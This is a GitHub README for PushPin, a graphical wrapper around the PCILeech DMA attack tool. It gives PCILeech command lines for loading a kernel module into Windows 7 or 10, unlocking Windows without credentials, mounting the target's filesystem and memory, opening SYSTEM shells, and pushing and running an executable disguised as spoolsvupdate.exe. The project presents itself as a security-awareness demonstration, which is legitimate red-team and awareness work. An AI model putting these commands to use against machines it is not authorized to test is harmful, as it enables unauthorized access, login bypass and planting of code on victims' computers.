

# PushPin

Visual interface wrapper to PCILeech.

## Summary
PushPin is designed to provide a rapid, easy to use visual interface wrapper to a subset of the PCILeech projects capabilities. It also makes for a nice security awarness demonistration tool.

If you're not sure what PCILeech is please read up on the project first. https://github.com/ufrisk/pcileech

## Features

The GUI workflow is similar to the PCILeech CLI, first successfully load a KMD (KMD LOADERS) and then use the KMD address to load Kernel-mode implants (ACCESS). The following PCILeech kmdload, commands and Kernel-mode implants specfic to Windows Operating Systems are included. 

* Load a kernel module into Windows7x64 or Windows 10x64  
* Unlock Windows 
* Mount the targets filesystem and memory
* Mount the targets filesystem and memory:
* SYSTEM or USER command shell
* Push and Execute a file on the target as SYSTEM

### PushPin GUI overview
 

### Logging
PushPin provides a minimal level of logging of actions taken while using the GUI. The PushPinLog.txt log file is created or appended when an action is taken.

## System Requirements
Please ensure [PCILeech Version 4.6](https://github.com/ufrisk/pcileech) functions correctly with the commands listed above. 

PushPin is developed in C# targeted for .NET Framework 4.5. Compile or use the precompiled PushPin.exe binary and place it into the the same directory as pcileech.exe.

At a miminum your directory should contain:
```
PushPin.exe
pcileech.exe
FTD3XX.dll
leechcore.dll
vmm.dll
wx64_filepush.ksh
wx64_pscmd.ksh
wx64_pscmd_user.ksh
wx64_pscreate.ksh
wx64_pslist.ksh
wx64_unlock.ksh
```

#### <b>The following commands must work in the CLI for the GUI to work</b>

Load a kernel module into Windows 7x64 or Windows 10x64:
``` 
pcileech kmdload -kmd win7x64
pcileech kmdload -kmd win10_x64
pcileech kmdload -kmd win10_x64 -memmap auto 
```
*pcileech kmdload -kmd win10_x64 -memmap auto* - integrates with MemProcFS 

Unlock Windows:
```
pcileech wx64_unlock -kmd kmdaddress -0 1
```

Mount the targets filesystem and memory:
```
pcileech.exe mount -kmd kmdaddress
```

Command shell access as SYSTEM or USER:
```
pcileech wx64_pscmd -kmd kmdaddress
pcileech wx64_pscmd_user -kmd kmdaddress
```

Push and execute a file on the target:
```
pcileech wx64_filepush -kmd kmdaddress -in infile.exe -s \??\c:\windows\system32\spoolsvupdate.exe 
pcileech wx64_pscreate -kmd kmdaddress -s c:\windows\system32\spoolsvupdate.exe -0 syspid -4 1
```

## Disclaimer
Use at your own risk. This code is provided for educational purposes ONLY. Developers assume no liability and shall not be held responsible for any damage that may result from use or misuse of the provided code. It's the end users responsibility to obey all applicable local, state, federal and country specfic laws.  

### Changelog
v1.0 Initial release.